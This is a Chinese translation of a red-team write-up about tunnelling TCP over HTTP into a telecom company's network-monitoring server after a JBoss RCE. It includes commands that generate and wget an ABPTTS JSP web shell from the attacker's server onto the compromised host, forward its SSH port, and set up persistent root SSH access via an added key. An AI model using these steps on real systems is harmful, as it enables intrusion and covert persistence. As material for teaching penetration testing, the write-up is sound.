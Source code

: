 # 我如何侵入电信网络—第 2 部分(玩隧道:TCP 隧道)

> 原文：<https://infosecwriteups.com/how-i-hacked-into-a-telecom-network-part-2-playing-with-tunnels-tcp-tunneling-b4cef2837938?source=collection_archive---------2----------------------->

> *TLDR；一家电信公司的红队项目。立足于公司的网络监控系统(NMS)。通过 HTTP 隧道传输 SSH 的反向外壳问题已排序。当通过 HTTP 获得 SSH 时变成了完全忍者。在网络内部代理以获取内部网络扫描。使用 SS7 应用程序访问 CDRs 和 VLR。*

## **回顾:**一家电信公司的红队项目。找到了感兴趣的子域，在那个子域上做了全端口扫描，找到了端口 12000/tcp，14000/tcp，14100/tcp 找到了 JBoss 的一个运行实例(我真幸运！)，为 RCE 开发了 JBoss，现在遇到了反向外壳的问题。

有关详细信息，您可以查看以下链接:
[***第一部分—获取 RCE***](https://medium.com/bugbountywriteup/how-i-hacked-into-a-telecom-network-part-1-getting-the-rce-167c2bb320e6)[***第三部分—玩隧道:隐形 SSH &动态 SSH 隧道***](https://medium.com/bugbountywriteup/how-i-hacked-into-a-telecom-network-part-3-playing-with-tunnels-stealthy-ssh-dynamic-tunnels-5ac26557d0eb)[***第四部分—获取 CDRs、SS7 应用&***](https://medium.com/@TheCyb3rAlpha/how-i-hacked-into-a-telecom-network-part-4-getting-access-to-cdrs-ss7-applications-vlrs-9a8cf95e2648)

现在，当我试图获得一个稳定的反向外壳时，我失败了。我想到的另一个想法是获得一个 bind shell(为了稳定起见，在 HTTP 上获得 SSH)，而不是在 HTTP 上获得 reverse(HTTP 上的 TCP 隧道)。但是我到底在这里得到了什么？

> **HTTP 上的 TCP 隧道(出于 TCP 稳定性目的+秘密的 SSH 连接(通过创建的 TCP 隧道)+ SOCKS 隧道(动态 SSH 隧道)，用于使用 Metasploit 进行内部网络扫描=利用内部网络服务通过这些递归隧道来导出数据。**

![](img/836c58f451e9b9120895aa865e010d35.png)

看起来很复杂？让我们把它分成几个步骤:

1.  *首先，我在我的服务器和 NMS 服务器之间创建了一个桥，这样它应该支持不同协议的通信，而不仅仅是 HTTP/HTTPS(目前是>L2)[****HTTP 上的 TCP 隧道*** *]*
2.  *一旦创建了桥(****TCP Tunnel over HTTP****)，我就配置并实现了从我的服务器(****2222/TCP****)到 NMS 服务器(****22/TCP****)的 SSH 端口转发，这样我就可以通过 SSH over HTTP 连接到 NMS 服务器。(准确的说是 SSH over TCP over HTTP)****注:NMS 服务器上的 SSH 服务运行于 127.0.0.1***
3.  *然后，我将 NMS SSH 服务器配置为* ***允许 root 登录*** *和* ***生成 SSH 私钥*** *(将我的公钥复制到 authorized_hosts 文件)以便通过 SSH 访问 NMS 服务器。*
4.  *我使用私钥检查了到 NMS 的 SSH 连接，当它工作时，我创建了一个* ***动态 SSH 隧道*** *(SOCKS)来代理 SSH 隧道上的 Metasploit(准确地说是 HTTP 上的 TCP 隧道上的 SSH 隧道上的 Metasploit)。*

我想一步一步地在博客上讲述我是如何创造隧道的，以及我玩隧道的方式。

# 隧道 101

> 一个**隧道协议**是一个[通信协议](https://en.wikipedia.org/wiki/Communications_protocol)，允许数据从一个网络移动到另一个网络。它包括允许[私有网络](https://en.wikipedia.org/wiki/Private_network)通信通过一个叫做[封装](https://en.wikipedia.org/wiki/Encapsulation_(networking))的过程在公共网络(如[互联网](https://en.wikipedia.org/wiki/Internet))上发送。因为隧道涉及[将流量数据](https://en.wikipedia.org/wiki/Encapsulation_(networking))重新打包成不同的形式，也许以[加密](https://en.wikipedia.org/wiki/Encryption)为标准，它可以**隐藏通过隧道的流量**的性质。
> 
> 隧道协议通过使用[数据包](https://en.wikipedia.org/wiki/Network_packet)([有效载荷](https://en.wikipedia.org/wiki/Payload_(computing)))的数据部分来承载实际提供服务的数据包。隧道使用分层协议模型，例如那些 [OSI](https://en.wikipedia.org/wiki/Open_Systems_Interconnection) 或 [TCP/IP](https://en.wikipedia.org/wiki/TCP/IP) 协议组，但是当使用有效载荷来承载网络通常不提供的服务时，通常会违反分层。通常，在分层模型中，传送协议在与有效载荷协议相同或更高的级别上运行。
> 
> **来源:** [**维基百科**](https://en.wikipedia.org/wiki/Tunneling_protocol)

因此，基本的想法是使用 web 服务器作为中间代理，将所有网络数据包(TCP 数据包)从 web 服务器转发到内部网络。

![](img/6f83caf85849f46a85f6e77da063e136.png)

使用 HTTP 协议通过 web 服务器将 TCP 数据包转发到内部网络

在限制端口访问和过滤[出口流量](https://en.wikipedia.org/wiki/Egress_filtering)的情况下，TCP 隧道可以帮助您。在我的例子中，没有太多的过滤，但是，我使用这种技术来获得稳定的外壳访问。

现在，我已经在服务器上拥有了一个 RCE，并且拥有“root”权限。我很快利用这个机会使用 [**ABPTTS**](https://github.com/nccgroup/ABPTTS) 创建了一个基于 JSP 的 shell

# 通向太阳的黑色道路(ABPTTS)

正如 GitHub repo 中所解释的，

> ABPTTS 使用 Python 客户端脚本和 web 应用服务器页面/包，通过 HTTP/HTTPS 连接将 TCP 流量隧道传输到 web 应用服务器。

目前，该工具仅支持 JSP/WAR 和 ASP.NET 服务器端组件。

因此，我们的想法是使用 ABPTTS 创建一个基于 JSP 的 shell，并将其上传到 web 服务器，让该工具与 JSP shell 连接，并通过 HTTP 创建一个 TCP 隧道，从而在我的系统和服务器之间创建一个安全的 shell (SSH)。

**【jexws4.jsp】python abpttsfactory . py-o**

![](img/09ef1e8d2845aafb660a9a1d67c1a55e.png)

当使用 ABPTTS 生成 shell 时，该工具创建了一个配置文件，用于创建 HTTP/HTTPS 上的 TCP 隧道。

![](img/b51e2493d62776c337091112848a4dca.png)

然后，我使用 wget 将 JSP shell 上传到服务器。**注意:jexws4.war shell 是 Jexboss 的一个包。当您通过 Jexboss 利用 JBoss 漏洞时，该工具会将自己的 WAR shell 上传到服务器。在我的例子中，我只是试图找到这个 WAR/JSP shell(jexws4.jsp)并用 ABPTTS shell** 替换它

***wget***[***http://【我的***](/[MY) ***服务器]/jexws 4 . JSP-O<jexws4.jsp shell 在 NMS 服务器上的位置>***

![](img/e79eefc13492878411de38bb49c276e8.png)

ABPTTS shell 上传到服务器后，我在 Jexboss 上通过执行一个随机命令来查看输出，很快就确认了这一点。为什么？现在 Jexboss shell 被 ABPTTS shell 覆盖了，无论我执行什么命令，输出总是 ABPTTS shell 打印出来的散列。

![](img/4807275df97ec562c8b568c19b9c425f.png)

从上面的截图中可以看到，当我执行“id”命令时，我得到了一个奇怪的散列，证明 ABPTTS shell 上传成功！

现在我已经配置了一个 HTTP 上的 **TCP 隧道，接下来我想做的事情是隧道化运行在服务器上的 SSH 端口(NMS** 上的 **22/tcp)并将端口绑定到我的系统( **2222/tcp** )。为什么？这样我就可以通过 SSH 连接到 NMS。你注意到我在这里做什么了吗？**

![](img/4fc99d25be9e54d2aa5b1fd2959f40e8.png)

通过 HTTP 上的 TCP 隧道进行 SSH 端口转发(尚未隧道化)

尽管我还没有在 NMS 和我自己的服务器上为 SSH 隧道配置 SSH 部分。现在，我只准备了端口转发机制，这样我就可以使用端口 2222/tcp 从我的服务器到达 NMS 上的本地端口 22/tcp

***python ABPTTS client . py-c<配置文件的位置>-u<ABPTTS shell URL>-f 127 . 0 . 0 . 1:2222/127 . 0 . 0 . 1:22***

![](img/0aac87b693262ff460d13d261137b362.png)

我检查了我的连接表，以检查端口是否被正确转发。正如你在下面的截图中看到的，我的服务器的端口 2222/tcp 处于监听状态。

![](img/f42b4a878a245aaa983f00d99ee5dd83.png)

现在要做的下一件事是配置 SSH 服务器以连接到 NMS 并启动一个动态 SSH 隧道(SOCKS)。我将在下一篇文章 ***:*** 中讨论这个问题

[***第三部——玩隧道:隐身宋承宪&动态隧道***](https://medium.com/bugbountywriteup/how-i-hacked-into-a-telecom-network-part-3-playing-with-tunnels-stealthy-ssh-dynamic-tunnels-5ac26557d0eb)

# 推广时间！

如果你们想了解更多关于我使用的技术及其背后的基本概念，可以阅读我的书(与***@ himan Shu _ hax****)*

> ***动手红队战术***——[亚马逊](https://www.amazon.in/Hands-Penetration-Testing-Metasploit-vulnerabilities-ebook/dp/B07MT8DDBR)， [PacktPub](https://www.packtpub.com/in/networking-and-servers/hands-red-team-tactics)

![](img/49183e9f12fed4d46b3e035adceddb8e.png)

> ***使用 Metasploit***—[Amazon](https://www.amazon.in/Hands-Penetration-Testing-Metasploit-vulnerabilities-ebook/dp/B07MT8DDBR)， [PacktPub](https://www.packtpub.com/in/networking-and-servers/hands-web-penetration-testing-metasploit) 进行实际操作的 Web 应用渗透测试

![](img/0bad1ace10ecc835b82b0fbb2be73fae.png)